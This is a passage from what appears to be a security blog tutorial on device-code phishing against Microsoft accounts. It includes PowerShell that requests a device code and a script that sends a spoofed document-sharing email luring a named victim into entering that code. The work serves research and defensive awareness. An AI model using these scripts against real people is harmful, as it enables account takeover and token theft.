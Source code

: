 # Invoke the request to get device and user codes
$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body
$user_code =    $authResponse.user_code
{{< /highlight>}}

**Note!** I'm using a version 1.0 which is a little bit different than v2.0 flow used in the <a href="https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-device-code" target="_blank">documentation</a>.

### 2. Creating a phishing email

Now that we have the **verification_url** (always the same) and **user_code** we can create and send a phishing email.

**Note!** For sending email you need a working smtp service.

Here is a script to send a phishing email to the victim:

{{< highlight powershell >}}
# Create a message
$message = @"
<html>
Hi!<br>
Here is the link to the <a href="https://microsoft.com/devicelogin">document</a>. Use the following code to access: <b>$user_code</b>. <br><br>
</html>
"@

# Send the email
Send-MailMessage -from "Don Director <dond@something.com>" -to "william.victim@target.org" -Subject "Don shared a document with you" -Body $message -SmtpServer $SMTPServer -BodyAsHtml 
{{< /highlight>}}

The received email looks like this:
![Device Code flow](/images/posts/phishing_6.png)


### 3. "Catching the fish" - victim performs the authentication

When a victim clicks the link, the following site appears. As we can see, the url is a legit Microsoft url. The user is asked to enter the code from the email.

![Device code](/images/posts/phishing_7.png)

After entering the code, user is asked to select the user to sign in. As we can see, the user is asked to sign in to **Microsoft Office** - no consents are asked.

**Note!** If the user is not logged in, the user needs to log in using whatever methods the target organisation is using.
